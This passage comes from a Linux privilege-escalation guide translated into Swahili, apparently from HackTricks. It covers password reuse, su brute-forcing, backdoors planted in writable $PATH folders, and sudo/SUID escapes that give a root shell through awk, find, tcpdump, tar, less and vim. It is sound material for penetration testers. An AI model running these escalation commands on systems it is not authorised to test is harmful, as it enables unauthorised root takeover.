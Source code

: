 ### Nenosiri zinazojulikana

Ikiwa unajua **nenosiri yoyote** ya mazingira, **jaribu kuingia kwa kila mtumiaji** ukitumia nenosiri hilo.

### Su Brute

Ikiwa hautajali kusababisha kelele nyingi na binaries za `su` na `timeout` ziko kwenye kompyuta, unaweza kujaribu brute-force mtumiaji kutumia [su-bruteforce](https://github.com/carlospolop/su-bruteforce).\
[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) kwa kutumia parameter `-a` pia inajaribu brute-force watumiaji.

## Matumizi mabaya ya PATH inayoweza kuandikwa

### $PATH

Ikiwa utagundua kwamba unaweza **kuandika ndani ya folda fulani ya $PATH**, huenda ukaweza kupandisha vibali kwa **kuunda backdoor ndani ya folda inayoandikwa** kwa jina la amri itakayotekelezwa na mtumiaji mwingine (root ni bora) na ambayo **haitapakiwa kutoka kwenye folda iliyoko kabla** ya folda yako inayoweza kuandikwa katika $PATH.

### SUDO and SUID

Unaweza kuruhusiwa kutekeleza amri fulani kwa kutumia sudo au zinaweza kuwa na suid bit. Angalia kwa kutumia:
```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```
Baadhi ya **amri zisizotarajiwa zinakuwezesha kusoma na/au kuandika faili au hata kutekeleza amri.** Kwa mfano:
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```
### NOPASSWD

Kusanidi sudo kunaweza kumruhusu mtumiaji kutekeleza amri fulani kwa ruhusa za mtumiaji mwingine bila kujua nenosiri.
```
$ sudo -l
User demo may run the following commands on crashlab:
(root) NOPASSWD: /usr/bin/vim
```
Katika mfano huu mtumiaji `demo` anaweza kuendesha `vim` kama `root`, sasa ni rahisi kupata shell kwa kuongeza ssh key ndani ya saraka ya root au kwa kuita `sh`.
```
sudo vim -c '!sh'
```
### SETENV
